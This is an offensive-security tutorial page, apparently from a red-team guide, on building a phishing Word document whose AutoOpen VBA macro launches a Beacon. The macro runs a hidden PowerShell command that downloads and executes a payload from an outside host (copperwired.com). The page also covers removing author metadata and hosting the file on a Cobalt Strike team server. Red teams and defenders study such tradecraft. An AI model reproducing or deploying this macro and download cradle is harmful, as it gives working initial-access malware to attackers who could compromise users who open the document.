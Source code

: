 # VBA Macro Beacon

## Introduction

If we've compromised a users email we've opened a door to many possibilities. We can search the users emails, discover new users, reveal technologies in place, and send email on behalf of the user. Note: files that are emailed internally are not tagged with [MOTW Zone Identifier](https://en.wikipedia.org/wiki/Mark\_of\_the\_Web).

Visual Basic for Applications (VBA) is commonly used to enhance functionality in Excel and Word.&#x20;

###

## VBA Beacon Macro



### Create Word Macro

We can create a macro in word by going View -> Macros -> Create.&#x20;

<mark style="color:red;">**Note**</mark>: Make sure to change the macro name to "AutoOpen" and set the "Macros in" to the current document (Document1).

<figure><img src="../../../.gitbook/assets/Screenshot 2024-08-22 at 9.41.59 PM.png" alt=""><figcaption></figcaption></figure>

### Create VBA Script

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

#### Create Beacon PowerShell payload.

The easiest way to get a Beacon through a VBA macro is to use a PowerShell Beacon. To do so, go to Attacks -> Scripted Web Delivery (S). After that, generate a PowerShell payload & copy and paste it.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 12.48.22 AM.png" alt="" width="375"><figcaption></figcaption></figure>

Next, copy the PowerShell payload to the VBA Macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run  "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://copperwired.com/a'))"""

End Sub
```

Save the Macro, return the Word and go File -> Info -> Inspect Document. Remove _Document Properties and Personal Information._ This will prevent out username and other information from being leaked.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 12.55.46 AM.png" alt=""><figcaption></figcaption></figure>

Next we'll save it. It's important to save the Macro as a `.doc` instead of `.docx`. This is because .docx does not allow Macros. Additionally, you can use `.docm` but that's not really what we're looking for.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 1.05.09 AM.png" alt=""><figcaption></figcaption></figure>

We'll upload this file to our Cobalt Strike team server. Go to Site Management -> Host File and select our new `.doc` file.
